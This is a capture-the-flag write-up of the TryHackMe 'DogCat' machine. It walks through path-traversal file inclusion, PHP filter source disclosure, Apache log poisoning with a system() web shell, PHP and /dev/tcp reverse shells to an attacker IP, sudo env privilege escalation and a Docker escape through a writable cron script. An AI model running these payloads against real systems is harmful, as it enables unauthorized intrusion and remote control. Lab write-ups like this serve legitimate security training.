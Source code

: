 ```yaml
---
layout: post
title:  "THM Write-Up DogCat"
summary: Write-Up to the TryHackMe Machine DogCat
author: utnelson
date: '2022-02-14 11:17:23'
category: ['thm','write-up', 'medium']
thumbnail: \assets\img\posts\dogcat\title.png
keywords: dogcat, thm, box, easy, write-up, walkthrough, lfi, path, traversal, docker
permalink: /blog/write-up-dogcat/
---
```

Machine: [https://tryhackme.com/room/dogcat](https://tryhackme.com/room/dogcat)

## Enumeration

```console
root@machine:~$ nmap 10.10.64.63 -T4
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-14 22:30 CET
Nmap scan report for localhost (10.10.64.63)
Host is up (0.043s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Only two ports open. So lets check 80 with the running http server. 

<div class="text-center">
    <img src="\assets\img\posts\dogcat\page.PNG" class="rounded img-fluid">   
</div>
<br/>

The url looks interesting. `?view=cat`. Seems to be anything with LFI (local file inclusion). We could try to modify it with:    
`http://IPAdress/view=../../../../../../../etc/passwd`

We get an error:
<div class="text-center">
    <img src="\assets\img\posts\dogcat\onlydogcat.PNG" class="rounded img-fluid">   
</div>
<br/>

Just add `dog` in front the string. So it looks like this: `http://IPAdress/?view=dog/../../../../../../../etc/passwd`

A new error appears:

<div class="text-center">
    <img src="\assets\img\posts\dogcat\newerror.PNG" class="rounded img-fluid">   
</div>
<br/>

On [Hacktricks PHP Wrappers](https://book.hacktricks.xyz/pentesting-web/file-inclusion#wrapper-php-filter) I found something interesting. With the string: `php://filter/convert.base64-encode/resource=dog` we can see the source code of the `dog.php` in base64 encoding.

For decoding I used my running burpsuite.

<div class="text-center">
    <img src="\assets\img\posts\dogcat\decodedog.PNG" class="rounded img-fluid">   
</div>
<br/>

```php
<img src="dogs/<?php echo rand(1, 10); ?>.jpg" />
```

This code prints just a random dog picture with every request. We can also look into the `php` code of the index.php. That is may more interesting.
Modify the string as follow: `?view=php://filter/convert.base64-encode/resource=dog/../index` and decode it again.

```php
<?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
```

Nice! We can modify the `ext` variable and set it to none. So we can our payload from the first try again.
`http://IPAdress/?view=dog/../../../../../../../etc/passwd&ext=`

It's working. We can see the "/passwd" file. With burpsuite we have also a pretty good format.

<div class="text-center">
    <img src="\assets\img\posts\dogcat\passwd.PNG" class="rounded img-fluid">   
</div>
<br/>

From my enumeration I know this is running on a apache server. We may can look for log files.
We finaly can find the at `/var/log/apache2/access.log`

<div class="text-center">
    <img src="\assets\img\posts\dogcat\log.PNG" class="rounded img-fluid">   
</div>
<br/>

Our User-Agent Header is beeing inside the logfile. We may can modify it that it will be executed with our main.php file. We try at first:
`<?php system("ls")?>` Ooops. This endend a few times with fatal error and I was not able to view the logs again. So I have restartet the machine more than 3 times.  
Finally the User-Agent:`<?php system($_GET['cmd']);?>` and the GET string `/?view=dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=ls` was fine and i was able to see the RCE.

<div class="text-center">
    <img src="\assets\img\posts\dogcat\rce.PNG" class="rounded img-fluid">   
</div>
<br/>

So we just need to form a payload for a php reverse shell. I tried something new with the shell generator. [Generator](https://www.revshells.com/)

`php -r '$sock=fsockopen("10.14.20.70",9001);shell_exec("/bin/sh <&3 >&3 2>&3");'`

URL encoded: `/?view=dog/../../../../../../../var/log/apache2/access.log&ext=&cmd=php+-r+'$sock%3dfsockopen("10.14.20.70",9001)%3bshell_exec("/bin/sh+<%263+>%263+2>%263")%3b'`
We need to URL encode this string. In burpsuite pretty easy with `ctrl+u`. Set a listener up with and boom shell:

```console
root@machine:~$ nc -lvp 9001
listening on [any] 9001 ...
connect to [10.14.20.70] from localhost [10.10.21.32] 59000
ls
cat.php
cats
dog.php
dogs
flag.php
index.php
style.css
```
There we can find our first flag: `flag.php`

Flag 2 right next to it in the upper directory so only `cd..`

## Escalation

First try `sudo -l`

```console
sudo -l
Matching Defaults entries for www-data on 9e566ca216b3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on 9e566ca216b3:
    (root) NOPASSWD: /usr/bin/env
```

Quick look to GTFObins and we find the way we can spawn a root shell.

`sudo env /bin/sh`

Boom root shell. Find the flag at `/root/flag3.txt`

## Escape docker

Looking around we find a `.dockerenv` file. So we are inside a docker container.
Further enumeration we can spot a interesting file inside `/opt/backups`, we see a `backup.sh` with write permissions.  

```console
tar cf /root/container/backup/backup.tar /root/container
```

Its frequently backups the container certainly with a cron job.
We put a simple reverse shell inside the `backup.sh` and set up a nc listener.

```console
echo "/bin/sh -i >& /dev/tcp/10.14.20.70/9002 0>&1" >> backup.sh
```

Boom Shell. Now we are on the machine itself and escaped the docker container. The fourth flag is inside the `/root` dir.
